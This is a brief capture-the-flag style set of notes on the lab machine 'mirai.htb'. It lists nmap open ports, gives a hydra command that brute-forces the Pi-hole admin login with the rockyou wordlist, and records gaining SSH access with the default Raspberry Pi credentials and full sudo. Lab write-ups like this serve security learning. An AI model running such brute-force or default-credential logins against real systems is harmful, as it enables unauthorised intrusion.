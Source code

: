 22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
1975/tcp  open  tcoflashagent
32400/tcp open  plex
32469/tcp open  unknown


pi.hole domain found


# Brute forcing pihole admin panel
```
hydra -l '' -P /usr/share/wordlists/rockyou.txt mirai.htb http-post-form "/admin/index.php?login:pw=^PASS^:Forgot password"
```
didn't working 
trying default creds for raspberry pi on ssh as user pi
ssh :pi:raspberry and it's valid
can run sudo with any command

# Plex on port 32400
Nothing
